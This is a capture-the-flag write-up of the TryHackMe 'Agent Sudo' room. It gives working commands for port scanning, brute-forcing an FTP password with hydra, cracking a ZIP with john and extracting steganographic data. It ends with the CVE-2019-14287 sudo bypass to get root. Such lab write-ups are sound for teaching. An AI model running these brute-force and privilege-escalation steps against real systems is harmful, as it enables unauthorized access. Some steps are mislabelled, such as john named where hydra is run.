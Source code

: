 # Agent Sudo - WriteUp
## https://tryhackme.com/room/agentsudoctf

+ **We start with a nmap scan (TCP-SYN) for open ports (no host discovery or dns resolution).**
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.33.214 -oG allPorts``

+ **We see that FTP, SSH and HTTP are open.**

    ![1]
    
+ **With the help of whatweb, we try to enumerate for any CMS or software the web server is running.**

    Nothing relevant appears.

    ![2]
    
+ **We enumerate in nmap (with basic enum scripts) for versions in the services.**

    ``nmap -sC -sV -p21,22,80 10.10.33.214 -oN targeted``

    ![3]
    
    We see that the FTP software, vsftpd, is running version 3.0.3.
    
+ **We try to look for an exploit in exploitdb.**
    
    Nothing appears, so it´s not a vulnerable version.
    
    ![4]
    
+ **We try to login with anonymous user in the FTP service, but it didn't work.**

    ![5]
    
+ **Let's see the webpage. It tells that we must try to access with our codename as User-Agent.**

    ![6]
    
    TryHackMe gives us the hint to try the codename "C". To change the User-Agent, we use **curl**.
    
+ **Let's see the response of the webserver with curl, and the changed User-Agent.**

    We use the flag -L to apply a redirection in the page (for the change in the User-Agent).

    ``curl "http://10.10.33.214" -H "User-Agent: C" -L``
    
    ![7]
    
    From this, we know that the pass for the user **chris** is weak (also that Agent C is chris). Let's crack it.
    
+ **Let's use **john** to brute-force the password for the FTP service, with the user chris.**

    ``hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.33.214 -t 10 -v``
    
    ![8]
    
    John detects the password, so let's login with the new credentials.
    
+ **Login with the FTP credentials and list all the content.**
    
    ![9]
    
    We see three files, two images and a txt file. Lest download all of them to our current directory.
    
    ``mget *``
    
+ **If we open the txt file, we see the next message.**

    ![10]
    
    From this, we know that the images contain hidden data (steganography). Also, we get a new user (J) and the hint to his SSH password.
    
+ **Let's use binwalk to see any hidden file in the images.**

    ![11]
    
    We see that the image **cutie.png** contains a ZIP file inside. Let's extract it.
    
    ``binwalk -e cutie.png``
    
    ![12]
    
    The extracted **ZIP** has password, so we need to crack it first.
    
+ **We are going to use zip2john to get the hash first**

    ``zip2john 8702.zip > zip_hash``
    
+ **Now, let's use john to brute-force the hash obtained in the previous step**

    ``john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash | tee zip_pass``
    
    We transfer the output to a file to save all the results (**tee**).
    
    ![13]
    
    We obtain the ZIP file key.
    
+ **If we extract the file (I recommend to use 7z, because unzip doesn't recognize the password to extract), we obtain a new txt file.**

    ![14]
    
    We get a new message, which says:
    
    ```
    Agent C,
    
    We need to send the picture to 'XXXX' as soon as possible!
    
    By,
    Agent R
    ```
    
    This "location" is in base64, so we decode it.
    
    ``echo "XXXX" | base64 -d``
    
    ![15]
    
+ **We have finished with the png file, so now let's work with the jpg file. Let's see if there's something hidden with steghide**

    ``steghide extract -sf cute-alien.png``
    
    It asks us for a password, so we introduce the last word we get (in the previous step, after decode it).
    
    We see that it extracts a hidden message to a txt file, so we open it.
    
    ![16]
    
    It gives us an user (james) and his SSH password.
    
+ **We login to SSH with the new credentials.**

    Now, we have access to the machine.
    
    ![17]
    
    We can see the user flag using ls in the current directory.
    
+ **Now, let's do the privesc. We can use LinPeas, uploading the script to the system with scp (because we already know the SSH password)**

    ``scp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh james@10.10.33.214:/dev/shm``
    
    ![18]
    
    But let's do some manual enum. First, let's see for sudo permissions:
    
    ``sudo -l``
    
    We get the next permissions:
    
    ```
    User james may run the following commands on agent-sudo:
         (ALL, !root) /bin/bash
    ```
    
    Seeing this, we remember a CVE released in 2019 about a vulnerability on the command sudo. This is the CVE-2019-14287.
    
    ![19]
    
    To bypass the restriction established in the **suddoers** file, we need to execute the next command:
    
    ``sudo -u#-1 /bin/bash``
    
    To learn more about this vulnerability, you can access to this [site](https://www.exploit-db.com/exploits/47502)
    
+ **When we execute the command, it asks us for the james password; we introduce it and receive a root bash.**

    We can see it in the name of the prompt and with the command whoami.
    
    ![20]
    
    Now, we can go to the root directory, and get the root flag.
    
    ![21]
    
+ **BONUS: The machine also request to get the "name of the incident" of the image in the user james directory.**

    It's all about an OSINT task. We only need to use the reverse search of Google with the image, and filtrate the results by "Foxnews".
    
[1]:./images/1.png
[2]:./images/2.png
[3]:./images/3.png
[4]:./images/4.png
[5]:./images/5.png
[6]:./images/6.png
[7]:./images/7.png
[8]:./images/8.png
[9]:./images/9.png
[10]:./images/10.png
[11]:./images/11.png
[12]:./images/12.png
[13]:./images/13.png
[14]:./images/14.png
[15]:./images/15-1.png
[16]:./images/16.png
[17]:./images/17.png
[18]:./images/18.png
[19]:./images/19.png
[20]:./images/20.png
[21]:./images/21.png
